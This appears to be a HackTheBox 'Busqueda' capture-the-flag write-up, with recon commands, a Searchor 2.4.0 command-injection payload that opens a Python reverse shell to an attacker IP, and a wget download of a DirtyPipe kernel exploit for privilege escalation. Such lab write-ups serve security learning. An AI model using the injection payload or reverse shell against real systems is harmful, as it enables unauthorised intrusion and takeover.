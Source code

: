 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

# kernel version
uname -a 
Linux busqueda 5.15.0-69-generic 

# DirtyPipe Exploit in kali
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git && cd CVE-2022-0847-DirtyPipe-Exploits
zip -r CVE-2022-0847.zip ./*

# download
wget http://10.10.14.36:8888/CVE-2022-0847.zip
unzip CVE-2022-0847.zip

# 

```
![](assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)



